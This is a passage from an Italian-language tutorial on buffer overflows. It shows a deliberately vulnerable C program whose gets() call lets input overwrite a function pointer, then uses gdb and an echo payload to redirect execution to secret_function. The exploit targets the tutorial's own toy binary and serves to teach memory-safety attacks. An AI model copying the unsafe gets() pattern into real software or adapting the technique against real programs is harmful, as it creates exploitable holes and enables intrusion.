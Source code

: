 contenente un buffer e un puntatore ad una funzione.

In questo caso un buffer overflow può sovrascrivere il puntatore alla funzione, in modo da eseguire una funzione differente da quella attesa.

Ad esempio:

```c
typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;

void secret_function() {
	 printf("Secret function!\n");
}
void show_data(char *s) {
	 printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	 element_t e;
	 e.f = show_data;   // legitimate function
	 printf("Insert data: ");
	 gets(e.data);      // reads data, possible buffer overflow
	 e.f(e.data);
}
```

L’obiettivo dell’attacco è quello di far invocare la funzione `secret_function()` invece di `show_data()`:

Per semplificare l’attacco disabilitiamo l’opzione di compilazione **PIE** (*Position Independent Executable*) che rende più difficile exploitare la vulnerabilità in quanto renderebbe randomizzata la posizione in memoria del programma.

`$ gcc overflow-struct.c -o overflow-struct --no-pie --static`

Adesso usando gdb, possiamo ottenere l’indirizzo della funzione `secret_function()`:

```nasm
$ gdb -q overflow-struct
...
(gdb) x/x secret_function
	0x400b4d <secret_function>: 0xe5894855
```

Adesso per riuscire a sovrascrivere il puntatore bisogna riempire il buffer fino alla sua dimensione massima con dei dati qualsiasi e poi andare in overflow inserendo l’indirizzo della `secret_function`.

Nota che gli indirizzi sono a 8 byte e sono in little endian

```bash
echo -e "AAAAAAAAAAAAAAAA\x4d\x0b\x40\x00\x00\x00\x00\x00" | ./overflow-struct
Insert data: Secret function!
```

